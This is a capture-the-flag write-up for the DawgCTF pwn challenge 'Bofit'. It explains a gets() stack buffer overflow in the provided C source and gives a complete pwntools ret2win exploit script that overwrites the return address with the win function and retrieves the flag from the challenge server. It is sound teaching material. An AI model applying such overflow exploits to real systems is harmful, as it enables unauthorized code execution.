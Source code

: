 # Bofit

The description for the challenge is as follows:

*Because Bop It is copyrighted, apparently*

*nc umbccd.io 4100*

*Author: trashcanna*

The challenge was in the Pwn category, and it was worth 125 points. It came with a downlable binable and C source code. I will note that this challenge would have still been very doable without the sourcecode, but I will include snippets of it here for illustration purposes.

**TL;DR Solution:** Just do an overflow when the opportunity of "Shout it!" is presented and ret2win.

Initially running the live challenge produced a very straightforward interaction with the program:

```
knittingirl@piglet:~/CTF/cyberdawg$ nc umbccd.io 4100
Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes
You'll have a second to respond to a series of commands
BOF it: Reply with a capital 'B'
Pull it: Reply with a capital 'P'
Twist it: Reply with a capital 'T'
Shout it: Reply with a string of at least 10 characters
BOF it to start!
B
Twist it!
T
Shout it!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Twist it!
a
```
And the checksec on this looks pretty straightforward:
```
knittingirl@piglet:~/CTF/cyberdawg$ checksec bofit
[*] '/home/knittingirl/CTF/cyberdawg/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
An examination of the source code in C shows a clear vulnerability in the case that 'Shout it' occurs; user input is taken with gets(), so we should be able to get a buffer overflow very easily.
```
case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
```
In addition, the challenge creators have helpfully included a win function that will print the flag if called:
```
void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}
```
There are various ways in which I could get the exact address of the win_game() function; I like to use Ghidra.
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined win_game()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     00401275(W), 
                                                                                                   00401279(R)  
             undefined1        Stack[-0x78]:1 local_78                                XREF[2]:     0040127d(*), 
                                                                                                   0040128e(*)  
                             win_game                                        XREF[3]:     Entry Point(*), 004021e0, 
                                                                                          00402298(*)  
        00401256 f3 0f 1e fa     ENDBR64
        0040125a 55              PUSH       RBP

```

Finally, I will note that there appear to be no cases in which the function calls exit(), and it will return if you trigger the break on any of the cases by answering incorrectly. 
```
return score;
```
All of this means that our exploit should be extremely simple. We want to pass in enough characters on a "Shout it!" turn to overflow into the return pointer, then return into the win function to print the flag. I used the cyclic method with gdb to determine my padding, then finished the exploit by adding the address of win_game in order to jump there when I deliberately trigger the return condition. The final script looks like this:
```
from pwn import *

#target = process(b'./bofit')

#pid = gdb.attach(target, "\nb *play_game+368\ncontinue")
target = remote('umbccd.io',  4100)

print(target.recvuntil(b'BOF it to start!'))

target.sendline(b'B')

while True:
	current = target.recvuntil(b'it!')
	print(current)
	if b'BOF' in current:
		target.sendline(b'B')
	elif b'Pull' in current:
		target.sendline(b'P')
	elif b'Twist' in current:
		target.sendline(b'T')
	else:
		#payload = cyclic(200)
		padding = b'a' * 56
		payload = padding
		payload += p64(0x00401256)
		target.sendline(payload)
		break
print(target.recvuntil(b'it!'))
target.sendline(b'wrong')
target.interactive()
```
And the result looks like this:
```
knittingirl@piglet:~/CTF/cyberdawg$ python3 bofit_payload.py 
[+] Opening connection to umbccd.io on port 4100: Done
b"Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\nYou'll have a second to respond to a series of commands\nBOF it: Reply with a capital 'B'\nPull it: Reply with a capital 'P'\nTwist it: Reply with a capital 'T'\nShout it: Reply with a string of at least 10 characters\nBOF it to start!"
b'\nTwist it!'
b'\nPull it!'
b'\nBOF it!'
b'\nShout it!'
b'\nBOF it!'
[*] Switching to interactive mode

DawgCTF{n3w_h1gh_sc0r3!!}
[*] Got EOF while reading in interactive
$  

```
